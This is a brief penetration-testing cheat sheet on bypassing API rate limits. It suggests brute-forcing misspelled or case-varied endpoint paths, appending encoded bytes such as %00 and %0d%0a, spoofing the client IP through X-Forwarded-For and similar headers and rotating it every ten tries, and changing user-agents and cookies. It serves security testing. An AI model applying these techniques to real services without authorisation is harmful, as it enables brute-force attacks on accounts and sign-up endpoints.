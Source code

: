 # Rate Limit Bypass

### Using similar endpoints

If you are attacking the `/api/v3/sign-up` endpoint try to perform bruteforce to `/Sing-up`, `/SignUp`, `/singup`...

Also try appending to the original endpoint bytes like `%00, %0d%0a, %0d, %0a, %09, %0C, %20`

### Changing IP origin using headers

```text
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1


#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.

### Change other headers

Try changing the user-agent, the cookies... anything that could be able to identify you.

